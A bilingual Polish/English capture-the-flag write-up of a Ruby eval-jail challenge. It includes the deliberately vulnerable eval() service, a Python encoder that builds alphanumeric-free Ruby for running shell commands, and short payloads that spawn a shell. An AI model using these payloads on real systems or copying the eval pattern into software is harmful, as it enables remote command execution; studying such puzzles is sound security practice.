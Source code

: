 ﻿## HardToSay (misc, 200p, ?? solves)

    Ruby on Fails.
    FLAG1: nc 54.199.215.185 9001
    FLAG2: nc 54.199.215.185 9002
    FLAG3: nc 54.199.215.185 9003
    FLAG4: nc 54.199.215.185 9004

    hard_to_say-151ba63da9ef7f11bcbba93657805f85.rb

### PL
[ENG](#eng-version)

Dostajemy taki kod:

```ruby

#!/usr/bin/env ruby

fail 'flag?' unless File.file?('flag')

$stdout.sync = true

limit = ARGV[0].to_i
puts "Hi, I can say #{limit} bytes :P"
s = $stdin.gets.strip!

if s.size > limit || s[/[[:alnum:]]/]
  puts 'oh... I cannot say this, maybe it is too long or too weird :('
  exit
end

puts "I think size = #{s.size} is ok to me."
r = eval(s).to_s
r[64..-1] = '...' if r.size > 64
puts r
```

Jak widać pobiera on od użytkownika kod, i evaluje go - ale tylko pod warunkiem że nie zawiera znaków alfanumerycznych i jest odpowiednio krótki.

Są cztery serwery z zadaniem - każdy z nich przyjmuje mniej znaków. Pierwszy 1024, drugi 64, trzeci 36, a czwarty tylko 10. Za pokonanie każdego dostajemy 50 punktów.

Najlepszym rozwiązaniem na jakie wpadliśmy na początku to wykonanie operacji na shellu za pomocą backticków (``` ` ```) i interpolowania stringów.

Opieramy się tutaj na kilku wartościach które są domyślnie dostępne w interpreterze, np. `$$` zwraca nam PID aktualnego procesu, więc wykonanie `$$/$$` da nam wynik `1`. Możemy w ten sposób uzyskać dowolne liczby, a stosując `''<<number` możemy generować także dowolne znaki ASCII.

Napisaliśmy sobie prosty enkoder wykonujący dowolne (odpowiednio krótkie) polecenie shellowe:

```python
def encode(cmd):
    out = """a1 = $$/$$
    a2 = a1+a1
    a4 = a2+a2
    a8 = a4+a4
    a16 = a8+a8
    a32 = a16+a16
    a64 = a32+a32
    """

    ss = []
    for c in cmd:
        cc = ord(c)
        vs = []
        for b in range(8):
            if (2**b) & ord(c):
                vs.append('a'+str(2**b))
        ss.append('(' + '+'.join(vs) + ")")
    s = '(""<<' + '<<'.join(ss) + ")"

    end = "`#{" + s + "}`"

    start = out + end

    varnames = ['_'*i for i in range(1,10)][::-1]

    start = start.replace('a64', varnames.pop())
    start = start.replace('a32', varnames.pop())
    start = start.replace('a16', varnames.pop())
    start = start.replace('a8', varnames.pop())
    start = start.replace('a4', varnames.pop())
    start = start.replace('a2', varnames.pop())
    start = start.replace('a1', varnames.pop())
    start = ';'.join(start.split('\n'))
    return start

import sys
print encode(sys.argv[1])
```

Flaga: `hitcon{what does the ruby say? @#$%!@&(%!#$&(%!@#$!$?...}`

+50 punktów. Zdobyliśmy w ten sposób pierwszą flagę. Niestety, okazało się że nie da się ukraść jednej flagi mając shella od drugiej flagi (brak uprawnień) i musieliśmy
kombinować dalej...

Postanowiliśmy złożyć string "sh". I umieścić bo w backtickach aby wykonać go w shellu, uzyskując tym samym dostęp do shella. Nasza druga próba, dla 64 znaków, wyglądała tak:

    _=$$;$_=*?`..?{;`#{$_[_*_+_-_/_]+$_[_+_]}`

Flaga: `hitcon{Ruby in Peace m(_ _)m`

+50 punktów. A następnie dla 36 bajtów analogiczna operacja kodująca wywołanie sh:

    _=*?[..?{;`#{_[~--$$-$$]+_[~$$*$$]}`

Flaga: `hitcon{My cats also know how to code in ruby :cat:}`

+50 punktów. Później myśleliśmy dłuższą chwilę, ale wpadliśmy na to, że wykonanie `$0` również powinno dać nam shell - spróbowaliśmy więc:

    `$#{~-$.}`

Gdzie `$.` to aktualny numer linii w stdin (czyli u nas 1). Operacja `~-number` zwraca nam liczbę o 1 mniejszą, czyli 0. Interpolujemy wynik jako stringa, doklejamy do znaku `$` i wywołujemy uzyskane `$0` w shellu uzyskując dostęp do shella.
Flaga: `hitcon{It's hard to say where ruby went wrong QwO}`

W ten sposób zdobyliśmy kolejne 50 punktów, rozwiązując w ten sposób całe zadanie.

### ENG version

We get the code:

```ruby

#!/usr/bin/env ruby

fail 'flag?' unless File.file?('flag')

$stdout.sync = true

limit = ARGV[0].to_i
puts "Hi, I can say #{limit} bytes :P"
s = $stdin.gets.strip!

if s.size > limit || s[/[[:alnum:]]/]
  puts 'oh... I cannot say this, maybe it is too long or too weird :('
  exit
end

puts "I think size = #{s.size} is ok to me."
r = eval(s).to_s
r[64..-1] = '...' if r.size > 64
puts r
```

As can be seen, it gets data from the use and evaluates it with `eval()`, but only if it doesn't contain any alphanumerical characters and is short enough.

There are 4 instances of the task - each one accepts less characters. First 1024, second 64, third 36 and last one only 10. For beating each one we get 50 points.

The best solution we came up with initially was executing shell operations with (``` ` ```) and string interpolation.

We use here some numerical values that are accesible in the interpreter, eg. `$$` gives is PID of the process so calling `$$/$$` gives nam `1`. This way we can get any number and by using `''<<number` we can also generate any ASCII.

We made a simple encoder that can create a code for us:

```python
def encode(cmd):
    out = """a1 = $$/$$
    a2 = a1+a1
    a4 = a2+a2
    a8 = a4+a4
    a16 = a8+a8
    a32 = a16+a16
    a64 = a32+a32
    """

    ss = []
    for c in cmd:
        cc = ord(c)
        vs = []
        for b in range(8):
            if (2**b) & ord(c):
                vs.append('a'+str(2**b))
        ss.append('(' + '+'.join(vs) + ")")
    s = '(""<<' + '<<'.join(ss) + ")"

    end = "`#{" + s + "}`"

    start = out + end

    varnames = ['_'*i for i in range(1,10)][::-1]

    start = start.replace('a64', varnames.pop())
    start = start.replace('a32', varnames.pop())
    start = start.replace('a16', varnames.pop())
    start = start.replace('a8', varnames.pop())
    start = start.replace('a4', varnames.pop())
    start = start.replace('a2', varnames.pop())
    start = start.replace('a1', varnames.pop())
    start = ';'.join(start.split('\n'))
    return start

import sys
print encode(sys.argv[1])
```

Flag: `hitcon{what does the ruby say? @#$%!@&(%!#$&(%!@#$!$?...}`

+50 points. This way we got the first flag. Unfortunately it was not possible to steal a different flag with the shell access we got (no permission) so we had to try harder.

We decided that we could prepare "sh" and put it in backticks to execute it in shell and get shell access. Our first attempt for 64 characters:

    _=$$;$_=*?`..?{;`#{$_[_*_+_-_/_]+$_[_+_]}`

Flag: `hitcon{Ruby in Peace m(_ _)m`

+50 points. Next one for 36 characters similar attempt to call "sh":

    _=*?[..?{;`#{_[~--$$-$$]+_[~$$*$$]}`

Flag: `hitcon{My cats also know how to code in ruby :cat:}`

+50 points. Then we had to think for a while but we figured that executing `$0` in the shell should also give us shell so we tried:

    `$#{~-$.}`

Where `$.` is current stdin line number (for us 1). Operation `~-number` returns number-1, so in our case 0. We interpolate this as string and glue with `$` and execute the `$0` we just got, getting shell accesss.
Flag: `hitcon{It's hard to say where ruby went wrong QwO}`

This way we got another 50 points and solved whole task.
